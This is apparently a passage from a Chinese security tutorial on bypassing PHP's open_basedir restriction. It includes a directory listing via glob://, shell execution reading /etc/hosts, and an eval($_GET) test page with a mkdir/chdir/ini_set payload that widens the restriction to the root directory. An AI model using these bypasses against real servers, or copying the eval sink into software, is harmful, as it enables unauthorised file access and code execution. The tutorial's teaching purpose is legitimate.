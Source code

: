 ```php
<?php
	print_r(ini_get("open_basedir")."</br>");
	$dir=new FilesystemIterator('glob:///www/wwwroot/test/*');
	foreach($dir as $d){
    	echo $d->__toString().'</br>';
    }
?>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/c478e3970f254ce3a8c41c70589b98bf.png)
##  文件读取
###  shell命令执行
shell命令不受`open_basedir`的影响
代码

```php
<?php
	print_r(ini_get("open_basedir")."</br>");
	system("cat /etc/hosts");
	show_source(__FILE__);
?>
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/c2a2168f1b994297bbd4c854690380e7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAWjNleU9uZA==,size_20,color_FFFFFF,t_70,g_se,x_16)
但是一般情况下，system()等命令执行函数可能会被disable_functions给禁用掉，因此运用到的场景可能并不多。
###  利用ini_set()和chdir
我们先直接看怎么去利用
测试代码
```php
<?php
show_source(__FILE__);
echo 'open_basedir: '.ini_get('open_basedir').'</br>';
eval($_GET['c']);
echo '</br>';
echo 'open_basedir: '.ini_get('open_basedir');
?>
```
传参

```php
c=mkdir('flag');chdir('flag');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/etc/hosts');
```
结果：
![在这里插入图片描述](https://img-blog.csdnimg.cn/d0970f4b4d974252a3c33c79ec5cacba.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAWjNleU9uZA==,size_20,color_FFFFFF,t_70,g_se,x_16)
可见，通过上面的payload，直接改变`open_basedir`的限制目录了。
再来一个例子
```php
<?php
	show_source(__FILE__);
	print_r(ini_get('open_basedir').'<br>');
	//修改open_basedir
	mkdir('test');
	chdir('test');
	ini_set('open_basedir','..');
	chdir('..');
	chdir('..');
	chdir('..');
	ini_set('open_basedir','/');
	
	echo file_get_contents('/etc/hosts');
?>
```